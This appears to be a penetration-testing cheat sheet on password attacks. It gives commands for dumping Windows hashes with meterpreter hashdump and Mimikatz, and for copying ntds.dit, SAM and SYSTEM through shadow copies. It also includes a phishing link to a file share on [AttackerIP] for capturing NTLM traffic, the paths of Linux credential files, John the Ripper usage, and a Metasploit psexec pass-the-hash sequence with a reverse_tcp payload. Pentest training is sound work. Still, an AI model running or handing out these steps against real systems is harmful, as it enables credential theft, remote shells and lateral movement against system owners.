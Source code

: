 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 98
---
```

 
> **Obtain Windows Passswords and Hashes**

**[Mimikatz](https://github.com/gentilkiwi/mimikatz)**
1. Determine architecture (32 vs 64 bit)
2. Determine if you have admin privs 
3. [AV Bypass](http://www.blackhillsinfosec.com/?p=5555)


**PWDUMP**

* [Pwdump 7 - File is dropped to disk and caught by AV](http://www.tarasco.org/security/pwdump_7/)
* [fgdump - File Dropped to Disk Caught by AV, Source available to evade AV](http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version)
* [Other versions of pwdump](http://www.openwall.com/passwords/windows-pwdump)

**Metasploit hashdump**

{% highlight bash %}
meterpreter >hashdump (from memory)
meterpreter > run hashdump (hash and syskey from registry)
{% endhighlight %}
	
**Volume Shadow Copy Service (domain controller)**

Required Tools:
* [vssown vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)  
* [vssown py](https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py)
* [ntds Dump Hash](http://csabarta.com/downloads/ntds_dump_hash.zip)

{% highlight bash %}
cscript vssown.vbs /status or /start or /create /c
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with ntds Dump Hash
{% endhighlight %}



**Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}

> **Linux Password Locations** 

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>

> **Password Guessing**

Hyrda

> **Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>

> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)

> **John the Ripper**

View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>

> **Pass the Hash**

***May require RID 500 account due to patch***
	
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd


